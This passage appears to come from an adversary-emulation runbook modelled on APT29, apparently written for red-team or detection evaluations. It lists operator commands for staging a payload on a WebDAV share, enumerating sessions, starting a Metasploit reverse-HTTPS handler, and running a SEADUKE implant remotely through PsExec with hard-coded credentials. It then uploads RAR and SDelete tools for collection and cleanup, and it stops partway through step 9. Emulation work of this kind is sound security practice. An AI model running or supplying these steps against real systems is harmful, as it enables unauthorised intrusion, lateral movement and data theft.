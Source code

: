 Copy payload to webdav share:

[user@attacker]\# `cp attack-evals/apt29/day1/payloads/python.exe /var/www/webdav/`
[user@attacker]\# `cd /var/www/webdav`  
[user@attacker]\# `chown -R www-data:www-data python.exe`    

Switch back to Meterpreter shell:

[meterpreter (PowerShell)\*] > `Ad-Search Computer Name *`

[meterpreter (PowerShell)\*] >  
```
Invoke-Command -ComputerName <victim 2 IP> -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId
```

Note the session ID for step 8C.

#### 8.B
Start a new instance of Metasploit, and spawn a Metasploit handler:

[bash] > `msfconsole`

[msf] > `handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https`

Return to current Meterpreter session:

[meterpreter (PowerShell)\*] > `Invoke-SeaDukeStage -ComputerName <victim 2 IP>`         

#### 8.C
**Execute SEADUKE Remotely via PSEXEC**

[meterpreter (PowerShell)\*] >
```
.\PsExec64.exe -accepteula \\<victim 2 IP> -u "domainName\username" -p P@ssw0rd -i <session ID from 8A> "C:\Windows\Temp\python.exe"
```

You should receive a callback in your other Metasploit terminal.

### Step 9 - Collection

#### 9.A
From the second Metasploit terminal:

[msf] > `sessions`        
[msf] > `sessions -i 1`    

[meterpreter\*] > 
```
upload "/home/gfawkes/Round2/Day1/payloads/r2d1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
```

[meterpreter\*] > 
```
upload "sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```
#### 9.B
[meterpreter\*] > `execute -f powershell.exe -i -H`   
    